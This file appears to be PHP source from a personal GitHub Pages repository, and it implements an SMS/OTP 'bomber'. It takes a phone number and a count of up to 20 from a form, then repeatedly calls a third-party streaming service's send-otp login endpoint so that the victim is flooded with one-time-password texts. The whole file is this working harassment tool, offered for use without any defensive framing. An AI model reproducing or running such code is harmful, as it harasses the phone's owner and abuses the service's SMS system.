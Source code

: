 # mdmubarok.github.io
<?php

session_start();

if(isset($_POST['submit'])){

	$number = $_POST['number'];

	$amount = $_POST['amount'];

	if($amount > 20 or $amount < 0){

		$_SESSION['alert'] = '<div class="alert alert-danger alert-white rounded"><div class="icon"><i class="fa fa-times-circle"></i></div><strong>Maximum amount is 20!</strong></div><br>';

	}else{

		for($i=0; $i < $amount; $i++){ 

			$url = "https://stage.bioscopelive.com/en/login/send-otp?phone=88".$number."&operator=bd-otp";

			$cSession = curl_init();

			curl_setopt($cSession,CURLOPT_URL,$url);

			curl_setopt($cSession,CURLOPT_RETURNTRANSFER,true);

			curl_setopt($cSession,CURLOPT_HEADER, false);

			$result = curl_exec($cSession);

			$http_code = curl_getinfo($cSession, CURLINFO_HTTP_CODE);

			curl_close($cSession);

		}

	}

	if(empty($http_code)){

		$http_code = "408";

	}

	if($http_code == 200){

		$_SESSION['alert'] = '<div class="alert alert-success alert-white rounded"><div class="icon"><i class="fa fa-check"></i></div><strong>Success!</strong></div><br>';

	}else{

		$_SESSION['alert'] = '<div class="alert alert-danger alert-white rounded"><div class="icon"><i class="fa fa-times-circle"></i></div><strong>Failed! Error code: '.$http_code.'</strong></div><br>';

	}

}

?>

<!DOCTYPE html>
